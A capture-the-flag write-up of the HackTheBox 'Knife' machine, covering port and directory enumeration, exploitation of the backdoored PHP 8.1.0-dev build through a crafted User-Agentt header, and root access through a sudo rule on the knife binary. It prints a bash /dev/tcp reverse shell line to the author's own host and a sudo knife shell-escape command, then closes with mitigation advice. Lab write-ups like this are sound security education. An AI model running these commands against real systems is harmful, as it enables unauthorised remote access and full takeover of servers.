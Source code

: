 # Writeup

In this post we explore the Knife machine hosted on the HackTheBox website. We first scan the machine to enumerate the open ports and the respective running services.

### Analyze and Discovery

We start with an `nmap` enumeration. The `-sC` flag enables the usage of the default nmap scripts and the `-sV` flag enables the service and version discovery.

```
  [#] ~ nmap -sC -sV -oN nmap-initial 10.10.10.242

Starting Nmap 7.91 ( https://nmap.org ) at 2021-06-05 09:49 CEST
Nmap scan report for 10.10.10.242
Host is up (0.024s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 be:54:9c:a3:67:c3:15:c3:64:71:7f:6a:53:4a:4c:21 (RSA)
|   256 bf:8a:3f:d4:06:e9:2e:87:4e:c9:7e:ab:22:0e:c0:ee (ECDSA)
|_  256 1a:de:a1:cc:37:ce:53:bb:1b:fb:2b:0b:ad:b3:f6:84 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title:  Emergent Medical Idea
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 9.26 seconds
```

Two ports results to be open: port 22 for the ssh service and 80 which hosts an Apache web service.

Visiting the webserver we land on the following page:

![](imgs/homepage.png)


The attack surface is very small as there aren't any input fields nor clickable links. The tabs on the top right of the page are not actually implemented.  

We can easily figure out that the website's backend language is PHP by noticing that the landing page is called `index.php`. This information may be useful in the future to tailor our enumeration/attacks.

We can gather further information on the resources hosted on the webserver by enumerating files or directories served on port 80. For this purpose, we can use `gobuster` and perform a dictionary-based brute force enumeration. 
As we know that the web server is written in php, it may contain files ending with `.php`. It may be useful to tell `gobuster` to also append the `.php` extension to the dictionary entries. The `-x` flag enables such feature.
The full `gobuster` command is 
```
gobuster dir -u http://10.10.10.242 -w SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php -t 50 -o gobuster-port80.txt
```

However the directory enumeration didn't return any valuable results. 

We can still examine the requests and responses generated when visiting the `index.php` page and see whether we can spot any anomalies. 

We open the Firefox developer tools and navigate to the `Network` tab. Here we can see the request sent by the browser to the server to request the `index.php` page and its respective response.

![](imgs/20210605-095915.png)

The `X-Powered-By` HTTP response header leaks the `PHP` version in use

![](imgs/20210605-100046.png)


Now that we know the specific version of php used, namely `php 8.1.0-dev`, we can google for known vulnerabilities.  
Our search produced a very interesting result:

![](imgs/20210605-100432.png)

It confirms that the current version is vulnerable and contains a backdoor that may cause remote code execution. What we need to do is finding this backdoor and exploit it.   

### Insight into the `PHP` backdoor

In exploitDB we can find the reference to the malicious commit that introduced the backdoor in the PHP code base. ([ExploitDB](https://www.exploit-db.com/exploits/49933)).

The backdoor is contained in the following code snippet:

![](imgs/20210605-101856.png)

As we can easily spot, the content of the `HTTP_USER_AGENTT` is scanned for the `zerodium` string. If the string is found, then the content after the first 8 bytes is evaluated.

So, if we build our `HTTP_USER_AGENTT` such that it starts with `zerodium` (8 bytes) than we will be able to execute the remaining bytes.

### Attacking and Tinkering

We know that the payload after the `zerodium` string will be executed in the server. Therefore we can embed a reverse shell to gain a shell in the remote machine.  
The server machine is running Ubuntu (as we can see from the `nmap` output), so we can use a simple tcp reverse shell that starts a connection to our local machine: `bash -i >& /dev/tcp/10.10.14.19/9001 0>&1`.  
(10.10.14.19 is the ip address of our local machine in the HTB network).


Indeed, we need to setup a tcp listener in our local machine to listen on port 9001 for the incoming connection. It can be done using netcat: `nc -lnvp 9001`.

The listener is ready, we can now trigger the backdoor.  
We embed our reverse shell into the `User-Agentt` header using BurpSuite.

![](imgs/20210605-102948.png)

And we get the callback

![](imgs/20210605-102850.png)


> An alternative to BurpSuite is the `curl` linux command. However, it would not be a very pleasant experience as one needs to pay close attention on escaping quotes.

We now have a shell as the **james** user. We can get the user flag by printing the `/home/james/user.txt` file.

#### Privilege Escalation

We can scan the machine for possible privilege escalation vectors.  

Before using any Linux enumeration scripts, we can try to see which commands the user **james** can execute as another user. It can be done using the `sudo -l` command.

![](imgs/20210605-103224.png)

As we can see from the command's output, we can execute the `knife` binary as root without the need to provide a password. 

But what is knife?

![](imgs/20210605-112124.png)

(More information on [Chef Documentation website](https://docs.chef.io/workstation/knife/) ) 

The documentation is indeed a useful resource to look at. It may be possible to find exploit vectors. 

As expected, going through the documentation highlighted an exploitable feature of the `knife` binary. It looks like we can execute arbitrary Ruby code:

![](imgs/20210605-105525.png)

Therefore we run the binary as **root** and spawn a shell using Ruby code.

```bash
james@knife:/$ sudo knife exec -E 'exec "/bin/bash"'
sudo knife exec -E 'exec "/bin/bash"'
$ whoami
root
```

We managed to get **root**, flag is in `/root/root.txt`

### Reflection on the security

In this section we highlight the security weaknesses that allowed us to get full control over the remote server. Moreover, we propose solutions to mitigate and patch such vulnerabilities

#### Security weaknesses and recommendations

- We managed to get a foothold in the target machine by exploiting an outdated version of PHP which contained a known backdoor. The vulnerability is extremely easy to exploit and allows an unauthenticated attacker to remotely gain access to the server's OS. Given the high impact and easiness of exploitation, the vulnerability can be classified as high risk and should be immediately patched.   
We advice to always keep the software up to date. Publicly facing web servers should have high priority and be updated daily as they are the first point of entry to the machine.

- The `X-Powered-By` leaks the PHP version in use, thus easily giving out extra information to the attacker. Such header should be immediately suppressed. Without the info about the PHP version the attacker would have had a harder time breaking into the machine. However security by obscurity is never a good solution and the problem should be fixed at the root (keep the software up to date).

- We managed to escalate our privileges by exploiting an over permissive rule in the `sudoers` file. Such rule allowed the `james` user to execute the `knife` binary as root without the need of a password. Such configuration together with the large variety of features exposed by the binary, easily allow an attacker to gain full control over the machine.
It is still unclear why the `sudoers` file contained such entry but it is definitely an over permissive rule which does not follow the minimality principle.  
It's highly likely that the system administrator lazily set up the `knife` sudo permissions without taking security into account.  
In case the **james** user is required to execute part of the `knife` features, we advice to configure the `sudoers` file in a more granular way, giving the users access to the required features only, and only after an accurate analysis of such features.  

